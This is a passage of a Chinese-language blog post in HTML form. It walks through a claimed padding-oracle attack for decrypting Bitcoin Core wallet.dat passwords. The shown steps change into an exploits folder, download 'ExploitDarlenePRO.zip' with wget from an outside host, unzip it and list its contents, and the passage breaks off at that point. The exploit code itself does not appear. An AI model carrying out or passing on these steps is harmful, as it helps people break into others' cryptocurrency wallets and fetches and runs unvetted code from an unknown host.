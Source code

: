 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-95-1024x565.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-4192"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>我們按照目錄打開資料夾：<code>/modules/exploits/</code></p>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-70.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-4063"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading"><strong><a href="https://darlene.pro/" target="_blank" rel="noreferrer noopener">利用DarlenePRO</a></strong></h2>



<p><code>"ExploitDarlenePRO"</code>從目錄下載：<code>/modules/exploits/</code></p>



<pre class="wp-block-code"><code>cd modules/

ls

cd exploits/

!wget https://darlene.pro/repository/fe9b4545d58e43c1704b0135383e5f124f36e40cb54d29112d8ae7babadae791/ExploitDarlenePRO.zip</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-97-1024x455.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-4197"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><code>ExploitDarlenePRO.zip</code>使用該實用程式解壓縮內容<code>unzip</code></p>



<pre class="wp-block-code"><code>!unzip ExploitDarlenePRO.zip</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-98-1024x462.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-4199"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>讓我們來瀏覽一下目錄：<code>/ExploitDarlenePRO/</code></p>



<pre class="wp-block-code"><code>ls
